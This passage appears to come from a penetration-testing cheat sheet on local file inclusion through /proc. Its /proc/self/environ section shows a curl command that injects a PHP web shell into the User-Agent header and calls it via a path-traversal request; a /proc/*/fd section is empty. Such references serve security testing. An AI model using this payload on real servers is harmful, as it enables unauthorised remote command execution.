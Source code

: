 # /proc

<details>

<summary>/proc/self/environ</summary>

Testers can abuse a process created due to a request. The payload is injected in the `User-Agent` header.

```bash
# Sending a request to $URL with a malicious user-agent
# Accessing the payload via LFI
curl --user-agent "<?php passthru($_GET['cmd']); ?>" $URL/?parameter=../../../proc/self/environ
```

</details>

<details>

<summary>🛠️ /proc/*/fd</summary>



</details>
